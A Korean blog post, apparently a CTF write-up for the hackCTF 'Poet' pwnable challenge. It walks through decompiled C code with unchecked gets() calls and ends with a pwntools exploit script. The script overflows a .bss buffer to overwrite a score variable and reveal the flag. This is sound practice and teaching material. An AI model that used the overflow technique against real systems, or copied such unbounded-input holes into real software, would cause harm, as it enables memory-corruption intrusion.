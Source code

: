 ```yaml
---
layout: post
title:  "[hackCTF]Poet"
date:   2020-02-18
---
```


hackCTF pwnable 13번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  setvbuf(_ bss_start, 0LL, 2, 0LL);
  puts(s);
  while ( 1 )
  {
    get_poem();
    get_author();
    rate_poem();
    if ( score == 1000000 )
      break;
    puts(asc_400D78); "음.. (중략) 다시 시도해 주세요!" 출력
  }
  reward();
}
```

## ida - get_author
```c
__int64 get_author()
{
  printf(&byte_400C38); // "이 시의 저자는 누구입니까?" 출력
  return gets(&author);
}
```

## ida - get_poem
```c
__int64 get_poem()
{
  __ int64 result; // rax

  printf("Enter :\n> ");
  result = gets(poem);
  score = 0;
  return result;
}
```

## ida - rate_poem
```c
int rate_poem()
{
  char dest; // [rsp+0h] [rbp-410h]
  char * s1; // [rsp+408h] [rbp-8h]

  strcpy(&dest, poem);
  for ( s1 = strtok(&dest, " \n"); s1; s1 = strtok(0LL, " \n") )
  { // 시를 행 단위로 자름
    if ( !strcmp(s1, "ESPR")
      || !strcmp(s1, "eat")
      || !strcmp(s1, "sleep")
      || !strcmp(s1, "pwn")
      || !strcmp(s1, "repeat")
      || !strcmp(s1, "CTF")
      || !strcmp(s1, "capture")
      || !strcmp(s1, "flag") )
    {
      score += 100; // 위의 단어 중 하나라도 들어가면 +100
    }
  }
  return printf(asc_400BC0, poem, (unsigned int)score);
}
```

## ida - reward
```c
void __noreturn reward()
{
  char s; // [rsp+0h] [rbp-90h]
  FILE * stream; // [rsp+88h] [rbp-8h]

  stream = fopen("./flag.txt", "r");
  fgets(&s, 128, stream);
  printf(format, &author, &s); // flag 출력
  exit(0);
}
```

처음엔 get_poem이나 get_author, rate_poem의 ret을 덮어서 문제를 해결하려 했다. poem이나 author은 .bss 영역에 존재하므로 ret을 덮을 수 없었다. 대신 score의 값을 1000000로 변조하고자 했다.

author는 .bss:00000000006024A0에 위치하고 score는 .bss:00000000006024E0에 위치한다. author을 입력 받을 때 score 값까지 덮으면 될 것 같다. 주의해야 할 점은 main에서 score과 비교하는  1000000은 int형이므로 payload를 작성할 때 1000000에 해당하는 문자열로 변환해야 한다.

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3012)

payload = "A"*(0x6024E0-0x6024A0) + p32(0xF4240) # 1000000 = 0xF4240

p.recvuntil("> ")

p.sendline("asdf")

p.recvuntil("> ")

p.sendline(payload)

p.interactive()
```

## 결과
![1301](https://drive.google.com/uc?id=1N2P6ySBqL7V_xx4a-1eJ5y1TBQcsuFUX)
